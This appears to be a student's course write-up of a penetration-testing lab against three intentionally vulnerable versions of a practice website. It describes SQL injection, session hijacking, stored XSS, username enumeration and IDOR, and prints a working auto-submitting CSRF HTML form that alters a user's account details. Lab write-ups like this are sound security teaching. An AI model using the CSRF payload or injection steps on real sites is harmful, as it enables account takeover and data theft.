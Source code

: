 # Project 8 - Pentesting Live Targets

Time spent: **4** hours spent in total

> Objective: Identify vulnerabilities in three different versions of the Globitek website: blue, green, and red.

The six possible exploits are:
* Username Enumeration
* Insecure Direct Object Reference (IDOR)
* SQL Injection (SQLi)
* Cross-Site Scripting (XSS)
* Cross-Site Request Forgery (CSRF)
* Session Hijacking/Fixation

Each version of the site has been given two of the six vulnerabilities. (In other words, all six of the exploits should be assignable to one of the sites.)

## Blue

Vulnerability #1: SQL Injection <br>
![alt text](https://media.giphy.com/media/1TSvbf5ZI6GsKLOnqb/giphy.gif) <br>
* Visit salesperson page
* Inject SQL via the ID param in the URL
* Using SLEEP(X) causes the page to hang up for X amounts of seconds (usually more)

Vulnerability #2: Session Hijacking/Fixation <br>
![alt text](https://media.giphy.com/media/3CU2S0KVAjfcsqqIwq/giphy.gif) <br>
* Log in as real user
* Attacker gets session ID because it expires after a year
* Attacker changes their session ID to match the captured one
* They now have access to user's information and potential sensitive data


## Green

Vulnerability #1: XSS <br>
![alt text](https://media.giphy.com/media/jnUHrqpF66ImA4rAq5/giphy.gif) <br>
* Leave some malicious code in the feedback site as an unauthorized user
* When an authorized user views the feedback page, the code will run

Vulnerability #2: Username Enumeration <br>
![alt text](https://media.giphy.com/media/2sYcDF2QBcg6ciRPS6/giphy.gif) <br>
When trying to log in to the site with a user name that does not exist, like "user", you get a message saying "Log in was unsuccessful.". When you try to sign in with a username that does exist but you use an incorrect password, you get the same message but bolded. This tells a potential attack that a user with this username exists and they can start trying to crack their password. 


## Red

Vulnerability #1: IDOR <br>
![alt text](https://media.giphy.com/media/5Wih4zJP9pRNkrMJ9p/giphy.gif) <br>
When viewing "/salesperson.php", there is an ID parameter attached to url. You can easily change this and increase the numbers to access different salespeople. This isn't a huge deal considering the nature of the information, and both blue and green have the same issue. The issue with the red page is that the last two IDs before you start getting redirected contain sensitive information. 

Vulnerability #2: CSRF <br>
![alt text](https://media.giphy.com/media/1Ye2OI5RXZfIVkjwuu/giphy.gif) <br>
By putting a link to a file in the feedback section, I am able to take advantage of a CSRF vulnerablity in the website. This allows me edit the information about a given user. I can change their username, email, the name they show up as, and their password with this vulnerability. Below is the html that was used. <br>
```html
<!DOCTYPE html>
<html>
<body onload="onload()">
    <form action="https://35.184.88.145/red/public/staff/users/edit.php?id=1" method="post" id="sonic" style="display: none" target="res">
        <input type="text" name="first_name" value="Sonic"><br>
        <input type="text" name="last_name" value="the Hedgehog"><br>
        <input type="text" name="username" value="gottagofast"><br>
        <input type="text" name="email" value="goingfast@speed.com"><br>
        <input type="submit" value="Update">
    </form>
    <iframe name="res" style="display: none;"></iframe>
</body>
    
<script>
    function onload() {
        document.getElementById('sonic').submit();
    }
</script>
</html>
```


## Notes

The biggest dificulty that I had was the CSRF vulnerability. I knew that it existed on one of the sites and I knew what I had to find which site it was, but it was still very difficult because of the way the form needed to be structured. I had to have an iframe so that the form wouldn't just disappear on load. That was one of my first problems, my other involved the submit button. I needed the form to autosubmit, but because the submit button was named "submit", .submit() would not would not work. More details on that specific issue [here](https://trackjs.com/blog/when-form-submit-is-not-a-function/)

